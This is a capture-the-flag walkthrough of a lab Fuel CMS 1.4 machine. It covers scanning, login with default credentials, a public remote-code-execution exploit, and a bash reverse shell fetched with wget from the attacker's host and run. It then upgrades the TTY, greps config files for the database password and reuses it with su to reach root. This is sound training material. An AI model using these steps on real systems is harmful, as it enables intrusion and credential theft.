 ## Target IP: 10.10.150.157

---

### Environment Variables

```bash
export IP=10.10.150.157
export LIP=10.6.24.56
```

---

### Nmap Scan

```bash
sudo nmap -sV -sC -T4 -O $IP -oN nmap_scan.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 80 | HTTP | Apache httpd 2.4.18 |

---

### Web Enumeration

Visited: `http://$IP`

→ Default **Fuel CMS** page

→ Mentions login at `/fuel` with default credentials: `admin:admin`

---

### Login to Fuel CMS

- URL: `http://$IP/fuel`
- Used default credentials: `admin:admin`
- Login successful

---

### Exploit Attempt – File Upload

- CMS has a **Pages** tab allowing file uploads
- Tried uploading a **PHP reverse shell** → didn’t work

---

### Remote Code Execution via Exploit

Found working exploit for Fuel CMS 1.4:

**Exploit:**

https://www.exploit-db.com/exploits/50477

- Used the Python script provided
- Passed in IP, got basic remote shell

---

### Shell Upgrade – Reverse Shell

1. Went to [revshells.com](https://www.revshells.com/)
2. Generated **bash reverse shell**, customized it with local IP and port
3. Named it: `reverse_shell.sh`

**Attacker Machine:**

```bash
python3 -m http.server 80
nc -lvnp 8080
```

**Victim Machine:**

```bash
wget http://10.6.24.56:80/reverse_shell.sh
bash reverse_shell.sh
```

→ Got reverse shell

---

### TTY Shell Upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
fg
[ENTER] [ENTER]
export XTERM=xterm
```

→ Stable interactive shell

---

### User Flag

```bash
cd /home/www-data
cat flag.txt
# → [REDACTED]
```

---

### Database Credentials Discovery

Default page said credentials are in:

```
fuel/application/config/database.php
```

Used:

```bash
find / -type d -name config
```

Found:

```
/var/www/html/fuel/application/config
```

Used `grep` to extract credentials:

```bash
grep -r -i "password" .
```

Result:

```php
'username' => 'root',
'password' => 'mememe'
```

---

### Privilege Escalation to Root

```bash
su root
# password: [REDACTED]
```

Successful root access

---

### Root Flag

```bash
cd /root
cat root.txt
# → [REDACTED]
```
